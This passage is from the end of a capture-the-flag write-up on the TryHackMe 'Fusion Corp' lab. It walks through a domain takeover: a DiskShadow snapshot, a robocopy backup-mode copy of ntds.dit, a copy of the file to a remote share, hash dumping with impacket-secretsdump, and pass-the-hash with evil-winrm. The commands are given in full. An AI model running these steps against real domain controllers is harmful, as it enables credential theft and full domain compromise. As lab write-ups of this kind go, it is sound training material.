However, Backup Operators group members possess the necessary privileges to access **`ntds.dit`**, which stores all domain secrets, including the NTLM password hashes of every domain account.

Because `ntds.dit` is actively locked by the operating system, **DiskShadow** is utilized to create a snapshot of the system drive (`C:`) and expose it as a virtual drive (`E:`). The script incorporates the `nowriters` parameter to prevent the process from stalling on unresponsive VSS components:

`set verbose on
set metadata C:\Windows\Temp\test.cab
set context persistent nowriters
add volume C: alias cdrive
create
expose %cdrive% E:`





Leveraging the `SeBackupPrivilege` assigned to the user through the Backup Operators membership, `robocopy` is executed in backup mode (`/b`) to copy the locked database files from the shadow copy to the local working directory:

```
robocopy /b E:\Windows\ntds .
```





This successfully extracts the `ntds.dit` database along with its associated logs and transaction files (`edb.chk`, `edb.log`, etc.) to `C:\Users\jmurphy\Documents`.



The same method was used for the transfer, with the `copy ntds.dit \\192.168.136.82\share\ntds.dit` command executed from the Windows host.

Obtaining the **`ntds.dit`** file alone is insufficient. Windows enforces a multi-layer encryption scheme to protect stored secrets:

1. **Password Encryption Key (PEK):**
Password hashes inside `ntds.dit` are encrypted using a PEK.
2. **The BootKey (SysKey):**
The PEK itself is encrypted using the **BootKey**, which is **not** stored within `ntds.dit`. Instead, the BootKey resides inside the Local Security Authority (LSA) secrets located within the **`SYSTEM`** registry hive.

Because `ntds.dit` cannot be decrypted without the BootKey, offline parsing tools like `impacket-secretsdump` strictly require both files concurrently:

`impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL`



All NTLM hashes have been successfully recovered, including the NTLM hash of the local full privileged`Administrator` user, which results in a critical full domain compromise. Thus, since the privileged local administrator account on the Domain Controller is allowed to access the system through WinRM by default, the **NT hash** could be used to authenticate through a **Pass-the-Hash** (PtH) attack using the `-H` switch with `evil-winrm`.



Privileges have successfully been escalated as the `fusion\administrator` domain administrator and highest privileged user on the `Fusion-DC` machine (Domain Controller). 

The final flag could be retrieved in the `C:\Users\Administrator\Desktop` directory.



## Fusion Corp — PWND!


## Conclusion

 

This machine, although extremely unstable and requiring multiple reboots following various actions—even without attempting **a single kernel exploit**—is rated “Hard” and requires patience, placing a heavy emphasis on this aspect. The enumeration scope wasn’t too broad, and the rabbit holes were neither pointless nor endless. The attack and exploitation techniques covered were fairly basic for a 120-minute CTF (compared to 60 minutes for  “***Reset***,”  another “Hard”-rated room requiring more steps, notably through ACL abuse, password resets… you can check the write-up dedicated to this challenge right here.
That said, this machine was pretty fun; I enjoyed the web enumeration, which was quite unexpected, with the backup endpoint being rather crude for a Hard-Rated challenge… however, I had a lot of fun!

Thank you all for reading. I think this will be my last write-up on TryHackMe—this platform has really disappointed me lately, and after some reflection and comparing it to Hack the Box, I think it’s time to break out of my comfort zone!

**Thank you for reading!!**


